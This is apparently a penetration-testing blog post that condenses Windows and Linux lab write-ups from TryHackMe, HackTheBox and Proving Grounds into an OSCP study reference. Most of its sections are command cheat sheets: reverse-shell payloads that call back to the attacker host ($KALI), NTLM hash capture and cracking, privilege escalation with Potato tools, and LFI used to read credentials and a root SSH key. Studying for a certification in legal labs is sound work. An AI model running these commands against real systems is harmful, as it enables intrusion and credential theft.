





```mermaid
flowchart LR
    A[feroxbuster port 3000 → Cassandra Web] --> B[LFI 49362 → /proc/self/cmdline]
    B --> C[cassie:SecondBiteTheApple330 extracted]
    C --> D[LFI → freeswitch event_socket.conf.xml]
    D --> E[StrongClueConEight021 extracted]
    E --> F[searchsploit freeswitch → EDB-47799 → RCE as freeswitch]
    F --> G[sudo -u root cassandra-web -B 0.0.0.0:1337]
    G --> H[LFI on port 1337 as root → read /root/.ssh/id_rsa]
    H --> I[ssh root@ip -i id_rsa]
```

## TL;DR

This post synthesizes every Windows writeup in this blog — **TryHackMe (44), HackTheBox (8), Proving Grounds (8)** — with a focus on **OSCP-style manual exploitation** (no Metasploit for initial access).

The Proving Grounds machines are analyzed in full detail here because they most closely mirror OSCP exam difficulty and style.

> **Note on PG categorization:** `pg-apex`, `pg-bratarina`, and `pg-clue` are tagged `[Proving Grounds, Windows]` in this blog, but their shell output and SMB banners (`Samba, Ubuntu`, `/bin/bash`) indicate they are actually Linux hosts. They are included here for completeness, with the OS correctly noted in each entry.

**Top techniques by observed frequency:**

| Rank | Technique | Category | OSCP Legal? |
|------|-----------|----------|------------|
| 1 | SeImpersonatePrivilege → Potato / PrintSpoofer | Token Abuse | Yes |
| 2 | Kerberoasting (GetUserSPNs) | Active Directory | Yes |
| 3 | Service misconfiguration (binPath / weak ACL) | Local Misconfig | Yes |
| 4 | Writable script + privileged scheduler | Local Misconfig | Yes |
| 5 | GPP / cpassword / stored credentials | Credential Exposure | Yes |
| 6 | AlwaysInstallElevated | Local Misconfig | Yes |
| 7 | AS-REP Roasting + ACL chain | Active Directory | Yes |
| 8 | CVE / public exploit (searchsploit) | Known CVE | Yes (manual only) |
| 9 | LFI → config credential extraction | Web Vuln | Yes |
| 10 | NTLM capture (Responder) → hashcat | Credential Abuse | Yes |

---

## Dataset Overview

### Platform Distribution



### Privilege Escalation Category Breakdown



---

## Proving Grounds — Complete Writeup Analysis

Proving Grounds machines are the most directly relevant to OSCP preparation. This section covers all 4 PG machines in full detail.

### PG — Craft2 (Windows 10)

**[→ Full writeup](/posts/pg-craft2/)**

| Field | Value |
|-------|-------|
| Actual OS | Windows 10 (Version 10.0.17763.2746) |
| Entry Vector | Bad-ODF NTLM capture → credential reuse → PHP web shell |
| PrivEsc | CVE-2020-1337 (WerTrigger) via MySQL LOAD_FILE DLL injection |
| OSCP Style | 100% manual — no Metasploit |

**Full Attack Chain:**


**Key commands:**

```bash
# 1. Generate malicious ODF document (leaks NTLM on open)
python3 Bad-ODF.py   # enter attacker IP → creates bad.odt

# 2. Capture NTLMv2 hash
sudo responder -I tun0 -v
# → THECYBERGEEK::CRAFT2:<hash>

# 3. Crack with hashcat
hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# → winniethepooh

# 4. Access writable SMB share
smbclient //$ip/Webapp -U 'thecybergeek%winniethepooh' -m SMB3 -c 'put ./cmd.php'

# 5. Generate reverse shell DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o phoneinfo.dll

# 6. Tunnel MySQL port via chisel
./chisel server -p 8000 --reverse                             # attacker
.\chisel.exe client $KALI:8000 R:3306:127.0.0.1:3306         # target

# 7. Write DLL to System32 via MySQL
mysql -u root -h 127.0.0.1 -P 3306
# > SELECT LOAD_FILE('C:\\Users\\Public\\phoneinfo.dll') INTO DUMPFILE "C:\\Windows\\System32\\phoneinfo.dll";

# 8. Trigger WER to load DLL → SYSTEM shell
certutil -urlcache -f http://$KALI/WerTrigger.exe WerTrigger.exe
.\WerTrigger.exe
```

**OSCP takeaways:**
- Responder + hashcat is a standard OSCP workflow for NTLM credential capture
- chisel for port forwarding is the go-to tool when internal services are not directly reachable
- `certutil -urlcache -f` is the standard file download method on Windows
- CVE-2020-1337 shows a creative chain: DB FILE privilege → filesystem write → DLL hijack

---

### PG — Apex (Linux/Samba — categorized as Windows)

**[→ Full writeup](/posts/pg-apex/)**

| Field | Value |
|-------|-------|
| Actual OS | **Linux (Ubuntu)** — tagged Windows in blog |
| Entry Vector | OpenEMR LFI (CVE-2018-17179) → sqlconf.php credential extraction |
| PrivEsc | Database credential reuse (mysql -u openemr) |
| OSCP Style | Manual CVE exploitation |

**Attack Chain:**



**Key commands:**

```bash
# Enumerate SMB — PDFs reveal the application
smbclient -L //$ip -N
smbclient //$ip/docs -m SMB3

# Exploit OpenEMR LFI
python3 49359.py http://$ip PHPSESSID=<session> /etc/passwd
python3 49359.py http://$ip PHPSESSID=<session> /var/www/openemr/sites/default/sqlconf.php

# Connect with extracted credentials
mysql -h $ip -u openemr -pC78maEQUIEuQ --skip-ssl
```

**OSCP takeaways:**
- SMB share contents reveal the running app → direct searchsploit path
- LFI targeting config files (`sqlconf.php`, `.env`, `config.php`) extracts credentials efficiently
- Always try `/proc/self/cmdline` and app-specific config paths when you have LFI

---

### PG — Bratarina (Linux/Samba — categorized as Windows)

**[→ Full writeup](/posts/pg-bratarina/)**

| Field | Value |
|-------|-------|
| Actual OS | **Linux (Samba)** — tagged Windows in blog |
| Entry Vector | SMB anonymous → passwd.bak → OpenSMTPD RCE (CVE-2020-7247) |
| PrivEsc | Exploit runs as root directly — no separate privesc step |
| OSCP Style | Manual CVE via searchsploit |

**Attack Chain:**



**Key commands:**

```bash
# SMB anonymous enumeration
smbclient "//$ip/backups" -N -m SMB3   # → get passwd.bak

# Banner grab port 25
nc -vn $ip 25   # → 220 bratarina ESMTP OpenSMTPD

# Find and exploit
searchsploit opensmtpd
searchsploit -m 47984
python3 47984.py $ip 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")"'
```

**OSCP takeaways:**
- Anonymous SMB backup shares frequently contain sensitive files — always `ls` every readable share
- Banner grab port 25 → version check → searchsploit is a reliable workflow
- OpenSMTPD runs as root, so the exploit delivers root directly — no privesc needed
- `searchsploit -m <EDB-ID>` copies the exploit to your current directory

---

### PG — Clue (Linux/Debian — categorized as Windows)

**[→ Full writeup](/posts/pg-clue/)**

| Field | Value |
|-------|-------|
| Actual OS | **Linux (Debian)** — tagged Windows in blog |
| Entry Vector | Cassandra Web LFI (EDB-49362) → credential extraction → FreeSWITCH RCE |
| PrivEsc | sudo misconfig → cassandra-web runs as root → re-exploit LFI for SSH key |
| OSCP Style | Manual chained exploitation |

**Attack Chain:**



**Key commands:**

```bash
# LFI to extract running process credentials
python3 49362.py $ip -p 3000 ../../../../../../../../proc/self/cmdline
# → /usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330

# LFI to read FreeSWITCH config
python3 49362.py $ip -p 3000 ../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml
# → password: StrongClueConEight021

# FreeSWITCH RCE (authenticated via extracted password)
searchsploit freeswitch
python3 47799.py $ip 'nc -e /bin/sh $KALI 3000'

# PrivEsc: sudo runs cassandra-web as root → new LFI surface
sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:1337 -u cassie -p SecondBiteTheApple330
# Now port 1337 has LFI running as root
python3 49362.py $ip -p 1337 ../../../../../../../../root/.ssh/id_rsa
ssh root@$ip -i id_rsa
```

**OSCP takeaways:**
- `/proc/self/cmdline` via LFI reveals command-line arguments including plaintext passwords
- Service config files (freeswitch, apache, nginx) contain credentials — check them when you have LFI
- `sudo -l` → run an app as root → if that app has its own LFI → the chain continues
- Re-exploiting an LFI from a privileged process to exfiltrate root SSH key is a pattern worth internalizing

---

## Windows-Specific Techniques (OSCP Reference)

### SeImpersonatePrivilege → Token Abuse

```powershell
whoami /priv   # → SeImpersonatePrivilege   Enabled
```

```cmd
:: Transfer tool
certutil -urlcache -split -f http://$KALI/GodPotato.exe C:\Temp\GodPotato.exe

:: GodPotato (universal — works on Server 2012 through Windows 11)
.\GodPotato.exe -cmd "nc.exe $KALI 4444 -e cmd.exe"

:: PrintSpoofer (Windows 10 / Server 2019)
.\PrintSpoofer64.exe -i -c cmd
```

**Observed:** [THM - Alfred](/posts/thm-alfred/) — Jenkins → SeImpersonate → PrintSpoofer → SYSTEM

---

### Kerberoasting

```bash
python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:'pass' -outputfile hash.txt
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Observed:** [HTB - Active](/posts/htb-active/), [THM - Corp](/posts/thm-corp/)

---

### Service Misconfiguration

```cmd
accesschk.exe /accepteula -uwcqv "Users" *
sc config <service> binPath= "C:\Temp\shell.exe"
sc stop <service> && sc start <service>
```

**Observed:** [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/)

---

### Writable Script + Scheduled Task

```cmd
:: winPEAS flags: File Permissions "C:\DevTools\CleanUp.ps1": Users [WriteData/CreateFiles]
echo C:\Temp\shell.exe >> C:\DevTools\CleanUp.ps1
rlwrap -cAri nc -lvnp 443   :: catch SYSTEM shell when task fires
```

**Observed:** [THM - Windows PrivEsc](/posts/thm-windows-privesc/)

---

### GPP / cpassword

```bash
smbclient //$ip/Replication -N   # → navigate to Groups.xml
gpp-decrypt "<cpassword>"
```

**Observed:** [HTB - Active](/posts/htb-active/)

---

### AlwaysInstallElevated

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f msi -o shell.msi
```

```cmd
msiexec /quiet /qn /i C:\Temp\shell.msi
```

**Observed:** [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/)

---

### AS-REP Roasting + BloodHound

```bash
python3 GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $ip -format hashcat
hashcat -m 18200 asrep.txt rockyou.txt
bloodhound-python -d htb.local -u svc-alfresco -p <pass> -c All -ns $ip
```

**Observed:** [HTB - Forest](/posts/htb-forest/)

---

### Stored Credentials

```powershell
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
cmdkey /list
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
findstr /si password *.txt *.xml *.ini *.config
```

**Observed:** [THM - Corp](/posts/thm-corp/)

---

## OSCP Methodology — Privesc Decision Tree



---

## File Transfer — OSCP Essential Commands

```cmd
:: certutil — most reliable, pre-installed on all Windows
certutil -urlcache -split -f http://$KALI:8000/file.exe C:\Temp\file.exe

:: curl (Windows 10+ built-in)
curl http://$KALI:8000/file.exe -o C:\Temp\file.exe

:: bitsadmin (older systems)
bitsadmin /transfer job http://$KALI:8000/file.exe C:\Temp\file.exe
```

```bash
# Kali — serve files
python3 -m http.server 8000
impacket-smbserver share . -smb2support -username guest -password ""
```

---

## Port Forwarding with chisel

```bash
# Attacker
./chisel server -p 8000 --reverse

# Victim (Windows) — expose internal MySQL
.\chisel.exe client $KALI:8000 R:3306:127.0.0.1:3306

# Victim — SOCKS5 proxy for full internal network
.\chisel.exe client $KALI:8000 R:socks
```

---

## Enumeration Checklist

```powershell
whoami /all
systeminfo
wmic qfe get Caption,HotFixID
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" *
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
schtasks /query /fo LIST /v
cmdkey /list
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
findstr /si password *.txt *.xml *.ini *.config
.\winPEASx64.exe
```

---

## Writeup Reference — Complete Index

### Proving Grounds

| Machine | Actual OS | Entry Vector | PrivEsc | Link |
|---------|-----------|--------------|---------|------|
| **Craft2** | Windows 10 | Bad-ODF NTLM → web shell | CVE-2020-1337 (WerTrigger + DLL) | [→](/posts/pg-craft2/) |
| **Apex** | Linux (Ubuntu) | OpenEMR LFI (CVE-2018-17179) | sqlconf.php → MySQL credential | [→](/posts/pg-apex/) |
| **Bratarina** | Linux (Samba) | OpenSMTPD RCE (CVE-2020-7247) | Direct root from exploit | [→](/posts/pg-bratarina/) |
| **Clue** | Linux (Debian) | Cassandra Web LFI → FreeSWITCH RCE | sudo → re-exploit LFI as root | [→](/posts/pg-clue/) |

### HackTheBox Windows

| Machine | Entry Vector | PrivEsc | Link |
|---------|--------------|---------|------|
| **Active** | SMB null → GPP cpassword | Kerberoasting → Domain Admin | [→](/posts/htb-active/) |
| **Forest** | LDAP user enum | AS-REP Roast → BloodHound → DCSync | [→](/posts/htb-forest/) |
| **Fluffy** | (see writeup) | (see writeup) | [→](/posts/htb-fluffy/) |
| **Legacy** | (see writeup) | (see writeup) | [→](/posts/htb-legacy/) |

### TryHackMe Windows (Key Machines)

| Machine | Entry Vector | PrivEsc | Link |
|---------|--------------|---------|------|
| **Windows PrivEsc** | local shell | Writable script + SYSTEM scheduler | [→](/posts/thm-windows-privesc/) |
| **Windows PrivEsc Arena** | RDP | Service misconfig / AlwaysInstallElevated / unquoted path | [→](/posts/thm-windows-privesc-arena/) |
| **Alfred** | Jenkins default cred | SeImpersonate → PrintSpoofer | [→](/posts/thm-alfred/) |
| **Corp** | local RDP | Kerberoasting + Unattend.xml | [→](/posts/thm-corp/) |
| **Retro** | WordPress cred → RDP | Kernel exploit | [→](/posts/thm-retro/) |
| **Steel Mountain** | Rejetto HFS CVE | Service misconfiguration | [→](/posts/thm-steel-mountain/) |
| **HackPark** | Web brute force | (see writeup) | [→](/posts/thm-hackpark/) |
| **Blaster** | (see writeup) | (see writeup) | [→](/posts/thm-blaster/) |
| **Holo** | (see writeup) | (see writeup) | [→](/posts/thm-holo/) |
| **Stealth** | (see writeup) | (see writeup) | [→](/posts/thm-stealth/) |
| **Attacking Kerberos** | Kerberos attacks | AD lab | [→](/posts/thm-attacking-kerberos/) |
| **Attacktive Directory** | AD lab | AD lab | [→](/posts/thm-attacktive-directory/) |

### Related TechBlog Posts

| Post | Link |
|------|------|
| Windows Potato PrivEsc Guide (GodPotato → Hot Potato) | [→](/posts/tech-windows-potato-privesc/) |
| PsExec Lateral Movement | [→](/posts/tech-psexec-lateral-movement/) |
| NTLM Relay (ntlmrelayx) | [→](/posts/tech-ntlmrelayx-attack-guide/) |
| Kerberoasting (GetUserSPNs) | [→](/posts/tech-getuserspns-kerberoasting/) |
| RBCD Attack | [→](/posts/tech-rbcd-attack-guide/) |
| AD CS / Certipy | [→](/posts/tech-certipy-adcs-attack/) |

---

## 5 OSCP Lessons from This Dataset

1. **searchsploit after every banner grab.** Bratarina was solved by `nc $ip 25` → version → searchsploit → public exploit. This three-step pattern repeats constantly.

2. **LFI is not just `/etc/passwd`.** Clue and Apex demonstrate that LFI into `/proc/self/cmdline`, app config files, and service configs extracts credentials far more reliably.

3. **chisel for internal service tunneling.** Craft2 required tunneling MySQL from the victim. Knowing the `server/client` chisel syntax and reverse port-forward notation is mandatory.

4. **NTLM capture via Responder is a reliable opening move.** Any Windows host that can be made to fetch a file emits NTLMv2. Craft2 shows ODF documents as the trigger.

5. **SeImpersonatePrivilege is almost always present on web/database service shells.** Check it first. GodPotato works on everything from Server 2012 to Windows 11.

---

## References

- [Potatoes Windows Privesc — Jorge Lajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- [PayloadsAllTheThings — Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Impacket](https://github.com/fortra/impacket)
- [chisel](https://github.com/jpillora/chisel)
- [CVE-2020-7247 (OpenSMTPD)](https://nvd.nist.gov/vuln/detail/CVE-2020-7247)
- [CVE-2020-1337 (WerTrigger)](https://nvd.nist.gov/vuln/detail/CVE-2020-1337)
- [CVE-2018-17179 (OpenEMR)](https://nvd.nist.gov/vuln/detail/CVE-2018-17179)
